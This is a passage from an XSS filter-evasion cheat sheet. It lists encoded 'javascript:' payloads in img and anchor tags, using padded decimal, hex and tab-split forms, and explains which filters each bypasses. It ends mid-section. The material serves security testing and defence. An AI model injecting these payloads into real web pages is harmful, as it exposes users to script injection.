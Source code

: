 ```html
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
```

### Decimal HTML Character References

Since XSS examples that use a `javascript:` directive inside an `<IMG` tag do not work on Firefox this approach uses decimal HTML character references as a workaround:

```html

 <a href="&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;">Click Me!</a>
```

### Decimal HTML Character References Without Trailing Semicolons

This is often effective in bypassing XSS filters that look for the string `&\#XX;`, since most people don't know about padding - which can be used up to 7 numeric characters total. This is also useful against filters that decode against strings like `$tmp\_string =\~ s/.\*\\&\#(\\d+);.\*/$1/;` which incorrectly assumes a semicolon is required to terminate a HTML encoded string (This has been seen in the wild):

```html
<a href="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">Click Me</a>
```

### Hexadecimal HTML Character References Without Trailing Semicolons

This attack is also viable against the filter for the string `$tmp\_string=\~ s/.\*\\&\#(\\d+);.\*/$1/;`, because it assumes that there is a numeric character following the pound symbol - which is not true with hex HTML characters:

```html
<a href="&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29">Click Me</a>
```

### Embedded Tab

This approach breaks up the XSS attack:


```html
 <a href="jav	ascript:alert('XSS');">Click Me</a>
```


### Embedded Encoded Tab

This approach can also break up XSS:
